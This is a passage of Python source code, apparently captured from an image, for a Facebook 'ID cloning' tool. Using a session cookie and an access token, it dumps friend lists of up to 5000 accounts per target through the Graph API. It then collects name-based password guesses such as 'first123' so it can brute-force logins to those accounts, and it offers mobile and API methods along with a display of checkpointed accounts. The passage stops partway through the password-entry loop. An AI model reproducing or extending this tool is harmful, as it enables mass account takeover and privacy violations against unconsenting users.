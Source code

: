                 print('\033[1;31m [+] YOUR COOKIES  EXPIRED...');time.sleep(1)
                login()
        try:
                jum=int(input(' \033[1;36m [+] HOW MANY IDS YOU  TO CLONE ?\033[1;37m '))
                lim=jum
        except ValueError:
                exit(' [+] Put only digits not latters ')
        if jum<1 or jum>5000:
                exit()
        ses=requests.Session()
        yz = 0
        for met in range(jum):
                yz+=1
                kl = input(f'\033[1;37m [+] PUT LINK NO.{yz+0}: ')
                usrr.append(kl)
        print('\033[1;97m [+]-------------------------------------------------------')
        print(' [+] METHOD 1 OR METHOD 2?')
        print('\033[1;97m [+]-------------------------------------------------------')
        print(' [1] METHOD 1 \033[1;91m Mobile\033[1;97m \n [2] METHOD 2 \033[1;92m API')
        print('\033[1;97m [+]-------------------------------------------------------')
        mthd = input(' [+]CHOOSE METHOD: ')
        print('\033[1;97m [+]-------------------------------------------------------')
        print(' [+] DO YOU WENT SHOW CP ACCOUNT? (y/n): ')
        print('\033[1;97m [+]-------------------------------------------------------')
        cx=input(' Choose: ')
        if cx in ['y','Y','yes','Yes','1']:
                pcp.append('y')
        else:
                pcp.append('n')
        print('\033[1;97m [+]-------------------------------------------------------')
        print('\033[1;32m [+] DUMPING FRIEND LIST...\033[1;37m')
        print('\033[1;97m [+]-------------------------------------------------------')
        for userr in usrr:
                try:
                        col = ses.get('https://graph.facebook.com/v2.0/'+userr+'?fields=friends.limit(5000)&access_token='+tokenku[0], cookies = {'cookies':cok}).json()
                        for mi in col['friends']['data']:
                                try:
                                        iso = (mi['id']+'|'+mi['name'])
                                        if iso in id:pass
                                        else:id.append(iso)
                                except:continue
                except (KeyError,IOError):
                        pass
                except requests.exceptions.ConnectionError:
                        exit(f' [+] NO INTERNET CONNECTION')
        try:
                plist = []
                try:
                        ps_limit = int(input(' [+] HOW MANY PASSWORDS DO YOU WANT TO ADD ? '))
                except:
                        ps_limit =20
                print('\033[1;97m [+]-------------------------------------------------------')
                print('\033[1;32m [+] ex: firstlast,first,first123,firstlast123')
                print('\033[1;97m [+]-------------------------------------------------------')
                for i in range(ps_limit):
                    plist.append(input(f' [+] PUT PASSWORD {i+20}: '))
                